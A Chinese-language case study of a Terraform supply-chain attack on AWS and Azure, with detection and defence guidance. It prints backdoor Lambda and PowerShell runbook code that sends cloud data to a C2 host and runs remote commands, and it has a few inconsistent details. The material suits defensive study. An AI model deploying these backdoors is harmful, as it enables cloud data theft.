




## 案例五：多云环境供应链攻击

### 背景概述

某金融科技企业采用多云架构，核心业务部署在 AWS，数据分析平台运行在 Azure，使用 Terraform 作为基础设施即代码（IaC）工具统一管理两个云平台的资源。所有 Terraform 代码和自定义模块托管在 GitHub 私有仓库（后因配置疏忽变为公开仓库），团队通过 CI/CD 流水线自动执行 `terraform apply`。

攻击者利用公开仓库中的代码审计发现漏洞，通过污染自定义 Terraform 模块实现了跨云平台的供应链攻击，在 AWS 和 Azure 中同时植入持久化后门。

### 供应链攻击的理论基础

#### 什么是 IaC 供应链攻击

基础设施即代码（Infrastructure as Code）供应链攻击是指攻击者通过篡改 IaC 模块、Provider 插件或 CI/CD 流水线，在受害者的云环境中植入恶意资源的攻击方式。与传统软件供应链攻击（如 SolarWinds）类似，但攻击目标从应用代码转向了基础设施定义。



#### 为什么多云环境风险更高

多云环境的供应链攻击风险比单云环境呈指数级增长，原因如下：

| 风险因素 | 单云环境 | 多云环境 |
|----------|----------|----------|
| 攻击面 | 单一 Provider 插件 | 多个 Provider 插件（aws、azure、google） |
| 模块依赖链 | 线性依赖 | 网状依赖，模块间交叉引用 |
| 凭据管理 | 集中管理 | 分散在多个平台，管理复杂度高 |
| 安全策略一致性 | 容易统一 | 各平台安全模型不同，难以统一 |
| 检测难度 | 相对简单 | 需要跨平台日志关联分析 |
| 爆炸半径 | 单平台受影响 | 可同时控制多个云平台 |

#### Terraform 供应链的信任链

Terraform 执行过程中存在多个可被攻击的信任节点：



每个节点被污染都可能导致恶意基础设施被部署。本案例中，攻击者同时利用了 **Git 源模块**（自定义模块仓库被污染）和 **CI/CD 流水线**（自动执行未审查的代码）两个信任节点。

### 攻击过程完整还原

#### 阶段 1：侦察与目标锁定

攻击者通过 GitHub 搜索语法发现暴露的基础设施代码仓库：

```bash
# GitHub Dork 搜索暴露的 Terraform 代码
# 搜索包含 AWS Provider 配置的公开仓库
"provider \"aws\"" filename:*.tf org:target-org

# 搜索包含敏感信息的 Terraform 文件
"access_key" OR "secret_key" filename:*.tf

# 搜索包含特定模块引用的仓库
"module" "source" "git::" filename:*.tf org:target-org

# 发现目标仓库
# https://github.com/target-org/infrastructure (私有→公开，因仓库设置失误)
# https://github.com/target-org/terraform-modules (自定义模块仓库)
```

攻击者克隆仓库并开始分析：

```bash
# 克隆仓库
git clone https://github.com/target-org/infrastructure
git clone https://github.com/target-org/terraform-modules

# 分析项目结构
find . -name "*.tf" | head -50
tree -L 2 .
```

#### 阶段 2：代码审计与攻击面分析

攻击者深入审计 Terraform 代码，寻找攻击入口：

```bash
# 审计 Provider 配置，检查版本锁定
grep -r "required_providers" --include="*.tf" .
# 发现 AWS Provider 使用了过时版本，存在已知漏洞

# 审计模块来源
grep -r "source.*=.*git::" --include="*.tf" .
# 输出：
# source = "git::https://github.com/target-org/terraform-modules//vpc?ref=v2.1.0"
# source = "git::https://github.com/target-org/terraform-modules//app?ref=v2.1.0"
# source = "git::https://github.com/target-org/terraform-modules//monitoring?ref=v2.1.0"

# 检查是否有模块签名验证
grep -r "module_signature" --include="*.tf" .
# 无输出 — 未启用模块签名验证

# 检查 CI/CD 配置
cat .github/workflows/terraform.yml
```

CI/CD 流水线配置暴露了关键信息：

```yaml
# .github/workflows/terraform.yml（简化版）
name: Terraform Apply
on:
  push:
    branches: [main]
jobs:
  terraform:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v3
      - uses: hashicorp/setup-terraform@v2
      - run: terraform init
      - run: terraform plan
      - run: terraform apply -auto-approve  # 危险：自动批准
        env:
          AWS_ACCESS_KEY_ID: ${{ secrets.AWS_ACCESS_KEY_ID }}
          AWS_SECRET_ACCESS_KEY: ${{ secrets.AWS_SECRET_ACCESS_KEY }}
          ARM_CLIENT_ID: ${{ secrets.ARM_CLIENT_ID }}
          ARM_CLIENT_SECRET: ${{ secrets.ARM_CLIENT_SECRET }}
          ARM_TENANT_ID: ${{ secrets.ARM_TENANT_ID }}
          ARM_SUBSCRIPTION_ID: ${{ secrets.ARM_SUBSCRIPTION_ID }}
```

审计发现的关键问题：

- `terraform apply -auto-approve` 无人工审批环节
- AWS 和 Azure 凭据同时注入到同一流水线
- 模块通过 `git::` 引用，无版本哈希锁定
- 未使用 Terraform Cloud 的 Sentinel 策略引擎

#### 阶段 3：获取模块仓库写入权限

攻击者需要修改自定义模块仓库才能植入后门。分析提交历史寻找突破口：

```bash
cd terraform-modules
git log --oneline --all | head -20

# 检查是否有 GitHub Actions 使用的 PAT 泄露
grep -r "GITHUB_TOKEN\|ghp_\|github_pat" .github/

# 检查 git 历史中的敏感信息
git log -p --all -S 'password' -- '*.tf' '*.yml' '*.json'
git log -p --all -S 'token' -- '*.tf' '*.yml'

# 发现：某次提交中泄露了具有 write 权限的 GitHub PAT
# commit abc123: "fix: update CI token"
# 某开发者不小心将 .env 文件提交到了仓库（后删除但仍在历史中）
```

攻击者从 git 历史中提取到具有 `repo:write` 权限的 Personal Access Token，获得自定义模块仓库的写入权限。

#### 阶段 4：植入跨平台后门

攻击者在自定义模块中植入精心构造的后门，同时针对 AWS 和 Azure：

**AWS 后门 — Lambda 函数 + 定时触发器**

```hcl
# terraform-modules/monitoring/main.tf（被篡改后）
# 以下代码伪装成监控模块的一部分

resource "aws_lambda_function" "health_checker" {
  filename      = data.archive_file.health_checker.output_path
  function_name = "${var.project_name}-health-checker"
  role          = aws_iam_role.health_checker.arn
  handler       = "index.handler"
  runtime       = "python3.11"
  timeout       = 30

  environment {
    variables = {
      # 伪装成配置项的 C2 服务器地址
      ENDPOINT    = "health-${var.environment}.cdn-analytics[.]com"
      ENVIRONMENT = var.environment
    }
  }

  # 混淆：使用 data 归档资源而非直接引用外部文件
  source_code_hash = data.archive_file.health_checker.output_base64sha256
}

data "archive_file" "health_checker" {
  type        = "zip"
  output_path = "${path.module}/health_checker.zip"

  source {
    content  = <<-PYTHON
    import json, urllib.request, boto3, os, base64

    def handler(event, context):
        # 伪装：先执行正常的健康检查
        sts = boto3.client('sts')
        identity = sts.get_caller_identity()

        # 恶意操作：收集环境信息并外传
        payload = {
            "account": identity['Account'],
            "region": os.environ.get('AWS_REGION', 'unknown'),
            "env": os.environ.get('ENVIRONMENT', 'unknown')
        }

        # 外传数据到 C2
        req = urllib.request.Request(
            f"https://{os.environ['ENDPOINT']}/collect",
            data=json.dumps(payload).encode(),
            headers={"Content-Type": "application/json", "X-Health": "ok"}
        )
        try:
            resp = urllib.request.urlopen(req, timeout=5)
            cmd = json.loads(resp.read().decode())

            # C2 可下发命令执行
            if cmd.get("action") == "dump":
                s3 = boto3.client('s3')
                buckets = s3.list_buckets()['Buckets']
                # 将敏感数据上传到攻击者控制的 S3
                for b in buckets:
                    objects = s3.list_objects_v2(Bucket=b['Name'], MaxKeys=100)
                    payload['buckets'] = [{k: str(v) for k,v in o.items()} for o in objects.get('Contents', [])]
                # 回传结果
                req2 = urllib.request.Request(
                    f"https://{os.environ['ENDPOINT']}/result",
                    data=json.dumps(payload).encode(),
                    headers={"Content-Type": "application/json"}
                )
                urllib.request.urlopen(req2, timeout=10)
        except:
            pass  # 静默失败，不暴露恶意行为

        return {"statusCode": 200, "body": "Health check passed"}
    PYTHON
    filename = "index.py"
  }
}

# 伪装成正常监控角色，但权限被悄悄提升
resource "aws_iam_role" "health_checker" {
  name = "${var.project_name}-health-checker"
  assume_role_policy = jsonencode({
    Version = "2012-10-17"
    Statement = [{
      Action = "sts:AssumeRole"
      Effect = "Allow"
      Principal = { Service = "lambda.amazonaws.com" }
    }]
  })
}

resource "aws_iam_role_policy" "health_checker" {
  name = "${var.project_name}-health-checker-policy"
  role = aws_iam_role.health_checker.id

  policy = jsonencode({
    Version = "2012-10-17"
    Statement = [
      {
        # 伪装：声称只需要 CloudWatch 权限
        Sid    = "CloudWatchLogs"
        Action = ["logs:CreateLogGroup", "logs:CreateLogStream", "logs:PutLogEvents"]
        Effect = "Allow"
        Resource = "arn:aws:logs:*:*:*"
      },
      {
        # 恶意：实际拥有 S3 完全访问权限
        Sid    = "S3ReadOnly"
        Action = ["s3:GetObject", "s3:ListBucket", "s3:ListAllMyBuckets"]
        Effect = "Allow"
        Resource = "*"
      },
      {
        # 恶意：IAM 只读权限用于提权路径发现
        Sid    = "IAMRead"
        Action = ["iam:ListRoles", "iam:ListPolicies", "iam:GetRole", "iam:GetPolicy"]
        Effect = "Allow"
        Resource = "*"
      }
    ]
  })
}

# 定时触发器 — 每小时与 C2 通信
resource "aws_cloudwatch_event_rule" "health_schedule" {
  name                = "${var.project_name}-health-schedule"
  description         = "Periodic health check"  # 伪装描述
  schedule_expression = "rate(1 hour)"
}

resource "aws_cloudwatch_event_target" "health_target" {
  rule      = aws_cloudwatch_event_rule.health_schedule.name
  target_id = "health-checker"
  arn       = aws_lambda_function.health_checker.arn
}

resource "aws_lambda_permission" "events" {
  statement_id  = "AllowExecutionFromEvents"
  action        = "lambda:InvokeFunction"
  function_name = aws_lambda_function.health_checker.function_name
  principal     = "events.amazonaws.com"
  source_arn    = aws_cloudwatch_event_rule.health_schedule.arn
}
```

**Azure 后门 — Logic App + 后门 Runbook**

```hcl
# terraform-modules/app/azure_monitor.tf（被篡改后）

resource "azurerm_automation_account" "monitor" {
  name                = "${var.project_name}-monitor"
  location            = var.location
  resource_group_name = var.resource_group_name
  sku_name            = "Basic"

  tags = {
    environment = var.environment
    purpose     = "monitoring"
  }
}

resource "azurerm_automation_runbook" "health_check" {
  name                    = "SystemHealthCheck"
  location                = var.location
  resource_group_name     = var.resource_group_name
  automation_account_name = azurerm_automation_account.monitor.name
  log_verbose             = true
  log_progress            = true
  runbook_type            = "PowerShell"
  content                 = <<-POWERSHELL
    # 伪装：系统健康检查脚本
    param(
        [string]$Endpoint = "health-monitor.cdn-analytics[.]com",
        [string]$Environment = "production"
    )

    try {
        # 正常操作：收集系统状态
        $vmStatus = Get-AzVM -Status | Select-Object Name, PowerState, ResourceGroupName
        $storageAccounts = Get-AzStorageAccount | Select-Object StorageAccountName, ResourceGroupName

        # 恶意操作：收集凭据和配置信息
        $subscription = Get-AzContext
        $keyvaults = Get-AzKeyVault | ForEach-Object {
            try {
                $secrets = Get-AzKeyVaultSecret -VaultName $_.VaultName | Select-Object Name, Enabled
                @{ VaultName = $_.VaultName; Secrets = $secrets }
            } catch { @{ VaultName = $_.VaultName; Secrets = @() } }
        }

        # 打包外传数据
        $payload = @{
            SubscriptionId = $subscription.Subscription.Id
            TenantId       = $subscription.Tenant.Id
            VMs            = $vmStatus
            Storage        = $storageAccounts
            KeyVaults      = $keyvaults
            Environment    = $Environment
            Timestamp      = (Get-Date).ToString("o")
        } | ConvertTo-Json -Depth 5

        # 外传到 C2
        Invoke-RestMethod -Uri "https://$Endpoint/collect" -Method Post -Body $payload -ContentType "application/json"

        # 检查是否有命令下发
        $cmd = Invoke-RestMethod -Uri "https://$Endpoint/cmd?env=$Environment" -Method Get
        if ($cmd.action -eq "exec") {
            Invoke-Expression $cmd.command | ConvertTo-Json
        }
    } catch {
        # 静默失败
    }
  POWERSHELL
}

# 定时执行
resource "azurerm_automation_schedule" "hourly" {
  name                    = "hourly-health-check"
  resource_group_name     = var.resource_group_name
  automation_account_name = azurerm_automation_account.monitor.name
  frequency               = "Hour"
  interval                = 1
  timezone                = "UTC"
}

resource "azurerm_automation_job_schedule" "health_job" {
  automation_account_name = azurerm_automation_account.monitor.name
  resource_group_name     = var.resource_group_name
  schedule_name           = azurerm_automation_schedule.hourly.name
  runbook_name            = azurerm_automation_runbook.health_check.name
}
```

#### 阶段 5：等待触发与横向扩展

攻击者提交代码并等待目标团队的 CI/CD 流水线自动执行：

```bash
# 攻击者在 terraform-modules 仓库中创建新分支并提交
git checkout -b feat/improve-monitoring
git add .
git commit -m "feat: add comprehensive health monitoring module"
git push origin feat/improve-monitoring

# 创建 PR（伪装为正常功能更新）
gh pr create --title "feat: add health monitoring for production" \
  --body "Added automated health checks for production environment. \
  Includes AWS Lambda and Azure Automation Runbook for cross-cloud monitoring."
```

由于该仓库之前有开发者提交过 PR 被自动合并的先例（仓库维护者设置了 auto-merge），攻击者的 PR 在代码审查不充分的情况下被合并。CI/CD 流水线自动执行 `terraform apply -auto-approve`，后门资源被部署到 AWS 和 Azure。

#### 阶段 6：持久化与数据窃取

后门部署完成后，攻击者通过 C2 服务器控制 Lambda 函数和 Azure Runbook：

```bash
# 通过 C2 接口下发命令（示意）
curl -X POST https://health-prod.cdn-analytics[.]com/cmd \
  -H "Content-Type: application/json" \
  -d '{"action": "dump", "target": "aws"}'

curl -X POST https://health-monitor.cdn-analytics[.]com/cmd \
  -H "Content-Type: application/json" \
  -d '{"action": "dump", "target": "azure"}'
```

攻击者获取到的信息包括：

- AWS 账户 ID 和 Azure 订阅 ID（用于后续钓鱼或社工）
- S3 存储桶列表和对象元数据
- Azure Key Vault 中的 Secret 名称（用于后续定向攻击）
- 虚拟机列表和运行状态
- IAM 角色和策略信息（用于提权路径分析）

### 漏洞分析与风险评估

#### 发现的漏洞

| 漏洞 | 严重性 | CVSS | 描述 | 影响范围 |
|------|--------|------|------|----------|
| 供应链模块污染 | 严重 | 9.8 | 自定义 Terraform 模块被植入后门 | AWS + Azure 全部资源 |
| 仓库访问控制失败 | 严重 | 9.1 | 私有仓库意外公开 + PAT 泄露 | 源代码和 CI/CD 凭据 |
| CI/CD 无审批机制 | 高 | 8.6 | `terraform apply -auto-approve` 无人工审核 | 任何代码变更自动部署 |
| 模块无版本锁定 | 高 | 8.1 | 未使用哈希锁定模块版本 | 模块可被静默替换 |
| Lambda/Runbook 权限过大 | 高 | 7.5 | 后门资源拥有超出必要的权限 | S3、IAM、KeyVault |
| 无跨平台日志关联 | 中 | 6.8 | AWS CloudTrail 和 Azure Monitor 未联动 | 攻击行为难以被发现 |
| 缺乏模块安全扫描 | 中 | 6.5 | 未在 CI 中集成 tfsec/checkov | 恶意代码未被检测 |

#### 攻击链分析



### 检测方法

#### 静态检测（部署前）

**1. Terraform 代码安全扫描**

```bash
# 使用 tfsec 扫描安全问题
tfsec ./infrastructure --format json --out tfsec-report.json

# 使用 checkov 进行策略检查
checkov -d . --framework terraform --output json

# 自定义检测：扫描可疑的外部通信
grep -rn "http.*request\|urllib\|Invoke-RestMethod\|curl" \
  --include="*.tf" --include="*.py" --include="*.ps1" .

# 检测 Lambda 函数中的可疑代码模式
grep -rn "base64\|eval\|exec\|subprocess\|os\.system" \
  --include="*.py" .

# 检测过宽的 IAM 策略
grep -A 20 'Action.*=.*\[' *.tf | grep '"\*"'
```

**2. 模块完整性验证**

```bash
# 锁定模块版本哈希（.terraform.lock.hcl）
terraform providers lock \
  -platform=linux_amd64 \
  -platform=darwin_amd64 \
  -platform=windows_amd64

# 验证当前模块哈希
cat .terraform.lock.hcl | grep -A 5 "target-org/terraform-modules"

# 比较模块哈希是否变化
sha256sum .terraform/modules/*/main.tf
```

**3. CI/CD 流水线安全检查**

```yaml
# 在 GitHub Actions 中集成安全扫描
name: Terraform Security Scan
on: [pull_request]
jobs:
  security:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4

      - name: tfsec
        uses: aquasecurity/tfsec-action@v1.0.3

      - name: checkov
        uses: bridgecrewio/checkov-action@v12

      - name: 检查模块变更
        run: |
          # 对比 PR 中模块引用是否有变化
          git diff origin/main -- '*.tf' | grep -E '^\+.*source.*=' && \
            echo "::warning::Module source changed - manual review required"
```

#### 运行时检测（部署后）

**1. AWS CloudTrail 异常检测**

```python
"""
检测 Lambda 函数的异常网络通信模式
"""
import boto3
from datetime import datetime, timedelta

def detect_lambda_anomalies():
    cloudwatch = boto3.client('logs')
    lambda_client = boto3.client('lambda')

    # 获取所有 Lambda 函数
    functions = lambda_client.list_functions()['Functions']

    for func in functions:
        func_name = func['FunctionName']

        # 检查环境变量中是否有可疑域名
        env_vars = func.get('Environment', {}).get('Variables', {})
        for key, value in env_vars.items():
            if any(suspicious in value.lower() for suspicious in
                   ['c2', 'command', 'control', 'exfil']):
                print(f"[CRITICAL] {func_name}: 可疑环境变量 {key}={value}")

        # 检查函数是否配置了 VPC（外网通信能力）
        if 'VpcConfig' not in func or not func['VpcConfig'].get('SubnetIds'):
            # 非 VPC 函数可以访问外网
            print(f"[WARNING] {func_name}: 非 VPC Lambda，可直接访问外网")

        # 检查最近的调用频率
        metrics = boto3.client('cloudwatch')
        response = metrics.get_metric_statistics(
            Namespace='AWS/Lambda',
            MetricName='Invocations',
            Dimensions=[{'Name': 'FunctionName', 'Value': func_name}],
            StartTime=datetime.utcnow() - timedelta(hours=24),
            EndTime=datetime.utcnow(),
            Period=3600,
            Statistics=['Sum']
        )
        for dp in response['Datapoints']:
            if dp['Sum'] > 100:  # 每小时超过100次调用
                print(f"[WARNING] {func_name}: 异常高频调用 {dp['Sum']}/hour")

detect_lambda_anomalies()
```

**2. Azure Monitor 告警规则**

```bash
# 使用 Azure CLI 创建 Runbook 执行告警
az monitor metrics alert create \
  --name "suspicious-runbook-execution" \
  --resource-group "target-rg" \
  --scopes "/subscriptions/{sub-id}/resourceGroups/{rg}/providers/Microsoft.Automation/automationAccounts/{account}" \
  --condition "count Microsoft.Automation/AutomationAccounts/TotalJob count > 5" \
  --window-size 1h \
  --evaluation-frequency 15m \
  --description "告警：Automation Runbook 异常高频执行"
```

**3. 跨平台网络流量监控**

```bash
# 使用 VPC Flow Logs 检测 Lambda 的外网通信
# 检查是否有 Lambda 函数 IP 连接到非白名单域名

# AWS: 启用 VPC Flow Logs
aws ec2 create-flow-logs \
  --resource-type NetworkInterface \
  --resource-ids eni-xxxxx \
  --traffic-type ALL \
  --log-destination-type cloud-watch-logs \
  --log-group-name /aws/vpc/flowlogs

# 查询流向可疑 IP 的流量
aws logs filter-pattern \
  --log-group-name /aws/vpc/flowlogs \
  --filter-pattern '{srcAddr = 10.* && dstAddr != 10.* && dstAddr != 172.*}' \
  --start-time $(date -d '1 hour ago' +%s)000
```

### 防御体系构建

#### 第一层：代码安全

```bash
# 1. Git Hooks — 提交前自动扫描
cat > .git/hooks/pre-commit << 'EOF'
#!/bin/bash
# 检测硬编码的密钥/Token
if git diff --cached --diff-filter=ACM | grep -iE '(password|secret|token|key)\s*='; then
    echo "[BLOCKED] 检测到硬编码凭据，请使用环境变量或 Vault"
    exit 1
fi

# 检测可疑的外部 URL
if git diff --cached --diff-filter=ACM | grep -E 'https?://[a-zA-Z0-9.-]+\.(com|net|org)'; then
    echo "[WARNING] 检测到外部 URL，请确认是否为已知可信域名"
fi

# tfsec 快速扫描
command -v tfsec &>/dev/null && tfsec --soft-fail .
EOF
chmod +x .git/hooks/pre-commit

# 2. GitHub Secret Scanning 启用
# 在仓库 Settings > Security > Code security and analysis 中启用
```

#### 第二层：模块管理

```hcl
# terraform/versions.tf — 严格锁定所有依赖

terraform {
  required_version = ">= 1.5.0, < 2.0.0"

  required_providers {
    aws = {
      source  = "hashicorp/aws"
      version = "5.31.0"  # 锁定精确版本
    }
    azurerm = {
      source  = "hashicorp/azurerm"
      version = "3.85.0"  # 锁定精确版本
    }
  }

  # 使用远程 State 后端并启用加密
  backend "s3" {
    bucket         = "terraform-state-prod"
    key            = "infrastructure/terraform.tfstate"
    region         = "us-east-1"
    encrypt        = true
    dynamodb_table = "terraform-locks"
  }
}

# .terraform.lock.hcl — 提交到版本控制
# 此文件锁定 Provider 的确切版本和哈希
# 每次 terraform init 后检查变更：diff .terraform.lock.hcl
```

#### 第三层：CI/CD 流水线加固

```yaml
# .github/workflows/terraform-secure.yml
name: Terraform Secure Pipeline
on:
  pull_request:
    branches: [main]
  push:
    branches: [main]

jobs:
  security-scan:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
        with:
          fetch-depth: 0  # 完整历史用于对比

      - name: 检查模块变更
        id: module-check
        run: |
          CHANGED=$(git diff origin/main~1 -- '*.tf' | grep -c '^\+.*source.*=' || true)
          echo "module_changes=$CHANGED" >> $GITHUB_OUTPUT
          if [ "$CHANGED" -gt 0 ]; then
            echo "::error::模块 source 引用发生变更，需要人工审核"
          fi

      - name: tfsec 安全扫描
        uses: aquasecurity/tfsec-action@v1.0.3

      - name: checkov 策略检查
        uses: bridgecrewio/checkov-action@v12
        with:
          directory: .
          framework: terraform
          quiet: true
          soft_fail: false

      - name: 验证模块哈希
        run: |
          terraform init -backend=false
          # 检查 lock 文件是否有未预期的变更
          git diff --exit-code .terraform.lock.hcl || {
            echo "::error::.terraform.lock.hcl 变更，请人工审查"
            exit 1
          }

  plan:
    needs: security-scan
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - uses: hashicorp/setup-terraform@v3

      - name: Terraform Plan
        run: terraform plan -out=tfplan -detailed-exitcode
        env:
          AWS_ACCESS_KEY_ID: ${{ secrets.AWS_ACCESS_KEY_ID }}
          AWS_SECRET_ACCESS_KEY: ${{ secrets.AWS_SECRET_ACCESS_KEY }}

      - name: 上传 Plan 文件
        uses: actions/upload-artifact@v4
        with:
          name: tfplan
          path: tfplan

  apply:
    needs: plan
    runs-on: ubuntu-latest
    if: github.ref == 'refs/heads/main'
    environment: production  # 需要 GitHub Environment 审批
    steps:
      - uses: actions/checkout@v4
      - uses: hashicorp/setup-terraform@v3

      - name: 下载 Plan
        uses: actions/download-artifact@v4
        with:
          name: tfplan

      - name: Terraform Apply
        run: terraform apply tfplan
        env:
          AWS_ACCESS_KEY_ID: ${{ secrets.AWS_ACCESS_KEY_ID }}
          AWS_SECRET_ACCESS_KEY: ${{ secrets.AWS_SECRET_ACCESS_KEY }}
```

#### 第四层：最小权限原则

```hcl
# 正确的 Lambda 权限配置 — 只授予必要权限
resource "aws_iam_role_policy" "health_checker_least_privilege" {
  name = "${var.project_name}-health-checker"
  role = aws_iam_role.health_checker.id

  policy = jsonencode({
    Version = "2012-10-17"
    Statement = [
      {
        Sid    = "CloudWatchLogs"
        Action = [
          "logs:CreateLogGroup",
          "logs:CreateLogStream",
          "logs:PutLogEvents"
        ]
        Effect   = "Allow"
        Resource = "arn:aws:logs:*:*:log-group:/aws/lambda/${var.project_name}-health-checker:*"
      },
      {
        # 只读取特定 S3 桶，而非所有桶
        Sid    = "SpecificBucketRead"
        Action = ["s3:GetObject"]
        Effect = "Allow"
        Resource = "arn:aws:s3:::${var.project_name}-assets/*"
      }
      # 不授予 IAM 读取权限
      # 不授予 EC2 访问权限
      # 不授予 s3:ListAllMyBuckets
    ]
  })
}
```

#### 第五层：运行时监控与告警

```bash
# 创建 AWS Config Rule 检测过度宽泛的 IAM 策略
aws configservice put-config-rule --config-rule '{
  "ConfigRuleName": "iam-policy-no-statements-with-admin-access",
  "Source": {
    "Owner": "AWS",
    "SourceIdentifier": "IAM_POLICY_NO_STATEMENTS_WITH_ADMIN_ACCESS"
  },
  "Scope": {
    "ComplianceResourceTypes": ["AWS::IAM::Policy"]
  }
}'

# 创建 EventBridge 规则检测新 Lambda 函数创建
aws events put-rule --name "detect-new-lambda" \
  --event-pattern '{
    "source": ["aws.lambda"],
    "detail-type": ["AWS API Call via CloudTrail"],
    "detail": {
      "eventName": ["CreateFunction", "UpdateFunctionCode", "UpdateFunctionConfiguration"]
    }
  }' \
  --state ENABLED
```

### 事件响应流程

当发现供应链攻击时，按以下流程处置：



**紧急处置命令：**

```bash
# 1. 立即禁用后门 Lambda
aws lambda update-function-configuration \
  --function-name project-health-checker \
  --environment Variables={}

# 2. 撤销 Lambda 执行角色
aws iam detach-role-policy \
  --role-name project-health-checker \
  --policy-arn arn:aws:iam::policy/project-health-checker-policy

# 3. 禁用 Azure Automation Runbook
az automation runbook set-content \
  --resource-group target-rg \
  --automation-account-name project-monitor \
  --name SystemHealthCheck \
  --content "# DISABLED - Incident Response"

# 4. 撤销 GitHub PAT
gh auth status  # 确认当前身份
# 在 GitHub Settings > Developer settings > Personal access tokens 中删除泄露的 Token

# 5. 轮换 AWS 凭据
aws iam create-access-key --user-name terraform-deploy
# 更新 GitHub Secrets 中的旧 Key
aws iam delete-access-key --user-name terraform-deploy --access-key-id AKIA...

# 6. 轮换 Azure 凭据
az ad sp credential reset --name terraform-sp --years 1
```

### 防御工具矩阵

| 工具 | 类型 | 用途 | 集成阶段 |
|------|------|------|----------|
| tfsec | 静态扫描 | Terraform 代码安全检查 | CI/CD pre-merge |
| checkov | 策略引擎 | IaC 最佳实践和合规检查 | CI/CD pre-merge |
| Trivy | 综合扫描 | 容器镜像 + IaC + 依赖 | CI/CD + Registry |
| Snyk IaC | SaaS | 持续监控 IaC 安全 | CI/CD + PR 注释 |
| Terraform Sentinel | 策略引擎 | 运行时策略执行（企业版） | Plan/Apply 阶段 |
| CloudSploit | 云安全 | 多云配置审计 | 定时扫描 |
| Steampipe | 查询引擎 | 跨云资源查询和审计 | 按需查询 |
| Infracost | 成本分析 | 检测意外新增资源 | CI/CD PR 注释 |
| Socket.dev | 依赖安全 | 检测供应链攻击 | 依赖安装阶段 |
| Sigstore/cosign | 签名验证 | 模块和容器签名 | 拉取阶段 |

### 关键经验教训

1. **仓库访问控制是第一道防线**：私有仓库意外公开是最常见的泄露途径。启用 GitHub 的 Secret Scanning 和 Push Protection 可以有效防止凭据泄露到公开仓库。

2. **CI/CD 中的 `auto-approve` 是最大隐患**：`terraform apply -auto-approve` 意味着任何合并到 main 的代码都会被自动部署到生产环境。必须设置人工审批环节（GitHub Environment Protection Rules）。

3. **模块版本必须用哈希锁定**：仅锁定版本号（`version = "2.1.0"`）不足以防止篡改。Git 标签可以被重新指向不同的 commit。必须使用 `.terraform.lock.hcl` 锁定 Provider 哈希，并对自定义模块使用 commit SHA 引用。

4. **最小权限不是可选项**：后门 Lambda 函数之所以能造成严重损害，是因为它拥有 `s3:*`、`ec2:*`、`iam:*` 等过度宽泛的权限。每个资源应该只拥有完成其功能所需的最小权限集。

5. **多云环境需要统一的安全策略**：AWS 和 Azure 的安全模型不同（IAM vs RBAC），但安全策略的严格程度必须一致。使用 Terraform Sentinel 或 OPA（Open Policy Agent）可以在多云环境中统一执行安全策略。

6. **Git 历史中的秘密仍然是秘密**：即使文件已被删除，凭据仍然存在于 git 历史中。使用 `git-filter-repo` 清除历史，或更好的做法是 — 永远不要将凭据提交到仓库。

***

